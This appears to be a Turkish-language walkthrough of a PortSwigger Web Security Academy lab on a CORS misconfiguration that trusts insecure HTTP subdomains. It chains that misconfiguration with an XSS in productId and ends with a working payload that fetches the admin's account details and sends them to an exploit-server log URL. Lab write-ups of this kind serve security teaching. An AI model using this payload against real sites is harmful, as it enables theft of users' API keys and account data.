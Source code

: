
# Lab: CORS vulnerability with trusted insecure protocols

Bu web sitesi, protokolden bağımsız olarak tüm subdomain'lere güvenen güvensiz bir CORS yapılandırmasına sahiptir.

Laboratuvarı çözmek için, adminin API anahtarını almak üzere CORS kullanan bir JavaScript oluşturun ve kodu exploit sunucunuza yükleyin. Admin'in API anahtarını başarıyla gönderdiğinizde laboratuvar çözülmüş olur.

Aşağıdaki kimlik bilgilerini kullanarak kendi hesabınıza giriş yapabilirsiniz: `wiener:peter`

Kurbana ortadaki adam saldırısı (MITM) yapabilseydiniz, güvenli olmayan bir subdomain'e bağlantıyı ele geçirmek için bir MITM saldırısı kullanabilir ve CORS yapılandırmasından yararlanmak için kötü amaçlı JavaScript enjekte edebilirsiniz. Maalesef laboratuvar ortamında kurbanı MITM'leyemezsiniz, bu nedenle subdomain'e JavaScript enjekte etmek için alternatif bir yol bulmanız gerekir.

1- Intercept'in kapalı olduğunu kontrol edin, ardından oturum açmak ve hesap sayfanıza erişmek için Burp'ün tarayıcısını kullanın.

2-  History'yi inceleyin ve anahtarınızın `/accountDetails` adresine yapılan bir `AJAX` isteği aracılığıyla alındığını ve yanıtın CORS'u destekleyebileceğini düşündüren `Access-Control-Allow-Credentials` header'ını içerdiğini gözlemleyin.

![Pasted image 20250603011744.png](/img/user/resimler/Pasted%20image%2020250603011744.png)

3- Request'i Burp Repeater'a gönderin ve eklenen Header `Origin: http://subdomain.lab-id` ile yeniden gönderin; burada lab-id laboratuvar domain adıdır.

![Pasted image 20250603011827.png](/img/user/resimler/Pasted%20image%2020250603011827.png)

4- Originin `Access-Control-Allow-Origin` header'ında yansıtıldığını gözlemleyin ve CORS yapılandırmasının hem HTTPS hem de HTTP olmak üzere rastgele subdomain'lerden erişime izin verdiğini doğrulayın.

![Pasted image 20250603011855.png](/img/user/resimler/Pasted%20image%2020250603011855.png)

5- Bir product sayfası açın, Check stock'a tıklayın ve bir subdomain üzerinde bir HTTP URL'si kullanılarak yüklendiğini gözlemleyin.

6- `productID` parametresinin XSS'ye karşı savunmasız olduğunu gözlemleyin.

![Pasted image 20250603012517.png](/img/user/resimler/Pasted%20image%2020250603012517.png)

![Pasted image 20250603012549.png](/img/user/resimler/Pasted%20image%2020250603012549.png)

7- Tarayıcıda, exploit sunucusuna gidin ve `YOUR-LAB-ID` yerine benzersiz laboratuvar URL'nizi ve `YOUR-EXPLOIT-SERVER-ID` yerine exploit sunucu kimliğinizi yazarak aşağıdaki HTML'yi girin:

```js
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
